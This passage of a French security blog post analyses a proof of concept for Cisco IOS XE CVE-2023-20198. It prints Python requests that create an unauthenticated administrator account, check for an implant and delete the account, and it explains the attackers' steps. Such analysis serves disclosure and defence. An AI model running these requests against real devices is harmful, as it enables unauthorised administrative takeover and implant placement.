 ```py

# Check for the presence of the implant
check_url = f"https://target.com/webui/implant_status"

response = requests.get(check_url, verify=False)

if response.status_code == 200:
    if "implant" in response.text:
        print("Implant is present")
    else:
        print("Implant is not present")

# Clean up by deleting the local user account
delete_user_url = f"https://target.com/webui/delete_user/{username}"

response = requests.delete(delete_user_url, verify=False)

if response.status_code == 200:
    print(f"Successfully deleted local user account: {username}")
```

Trackflaw n'est pas en mesure de le tester pour le moment. Ce PoC est à usage éducatif **uniquement**.

### 1. Création de l'administrateur

Le PoC indique cette information pour la création de l'administrateur :

```py
# Exploit CVE-2023-20198 to create a local user account
create_user_url = "https://target.com/webui/create_user"
username = "cisco_tac_admin"
password = "P@ssw0rd"

user_payload = {
    "username": username,
    "password": password
}

response = requests.post(create_user_url, data=user_payload, verify=False)
```

Comme indiqué par Cisco, cela semble correspondre à la création d'un administrateur de facçon non authentifié. L'attaquant ici effectue une requête `POST` vers la route `/webui/create_user` afin d'essayer de créer l'utilisateur privilégié.

### 2. Ajout de l'implant

Les attaquants, après avoir créée un compte administrateur, déposent un implant similaire à celui ci-dessous :

![Implant](/images/cisco-cve-2023-20198/2023-10-20-13-02-31.png)
